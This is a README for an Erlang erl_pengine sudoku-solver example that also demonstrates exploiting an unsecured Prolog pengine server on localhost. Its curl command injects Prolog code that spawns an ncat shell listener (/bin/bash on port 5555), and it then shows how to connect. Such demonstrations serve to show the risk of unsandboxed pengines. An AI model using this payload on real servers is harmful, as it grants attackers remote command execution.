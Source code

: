 # sudoku_solver_exploit

An example of using `erl_pengine` to query a prolog pengine for sudoku solutions and an example how a non-secure pengine can be exploited.

Build and compile

```bash
$ rebar3 compile
```

Open up an erlang shell with the project loaded using `rebar3 shell`

```bash
$ rebar3 shell
===> Verifying dependencies...
===> Compiling sudoku_solver
Eshell V8.3  (abort with ^G)
1>
```

Start the prolog server somewhere if it isn't already started.

Use a command similar to this to start it from the erlang shell:

```
os:cmd("current_dir=$PWD; cd /home/kim/workspace/erlang/erl_pengine/examples/sudoku_solver/prolog; prolog daemon.pl --http=4000 --pidfile=/home/kim/workspace/erlang/erl_pengine/examples/sudoku_solver/prolog/pid/http.pid; cd $current_dir").
```

Start the `erl_pengine` application, since this example project is an OTP library we can do it manually
(in case of an OTP application you would have it started automatically as a dependency):

 ```erlang
 application:ensure_all_started(erl_pengine).
 ```

 Read prolog source with a prolog instance to be injected into the pengine upon creation:

 ```erlang
 {ok, Src} = file:read_file("/home/kim/workspace/erlang/erl_pengine/examples/sudoku_solver_exploit/prolog/src_text_exploit.pl").
 ```

 Call the single function exported by `sudoku_solver_exploit` API `solve_sudoku/1`:

 ```erlang
 %% solve_sudoku will create pengine with the given source and query it for a solution of the sudoku-problem specified in Src
 3> sudoku_solver:solve_sudoku(Src).
 [[9,8,7,6,5,4,3,2,1],
  [2,4,6,1,7,3,9,8,5],
  [3,5,1,9,2,8,7,4,6],
  [1,2,8,5,3,7,6,9,4],
  [6,3,4,8,9,2,1,5,7],
  [7,9,5,4,6,1,8,3,2],
  [5,1,9,2,8,6,4,7,3],
  [4,7,2,3,1,9,5,6,8],
  [8,6,3,7,4,5,2,1,9]]
 4>
 ```

Alternatively you can send the explit with Curl:


```bash
curl --header "Content-Type: application/json" --request POST      --data $'{"application": "pengine_sandbox", "as": "problem(1, Rows), sudoku(Rows)", "chunk": 1, "destroy": true, "format":"json", "src_text": "problem(1, [[_,_,_,_,_,_,_,_,_],[_,_,_,_,_,3,_,8,5],[_,_,1,_,2,_,_,_,_],[_,_,_,5,_,7,_,_,_],[_,_,4,_,_,_,1,_,_],[_,9,_,_,_,_,_,_,_],[5,_,_,_,_,_,_,7,3],[_,_,2,_,1,_,_,_,_],[_,_,_,_,4,_,_,_,9]]):-\n\tshell(\\"ncat -n -v -l -p 5555 -e /bin/bash &\\").\n"}' http://127.0.0.1:4000/pengine/create
 ```

After sending the exploit you can get a reverse shell by running:
```bash
ncat -nv 127.0.0.1 5555
```



 Stopping:

 ```erlang
application:stop(erl_pengine),
os:cmd("cat /home/kim/workspace/erlang/erl_pengine/examples/sudoku_solver/prolog/pid/http.pid | xargs kill -9").
 ```
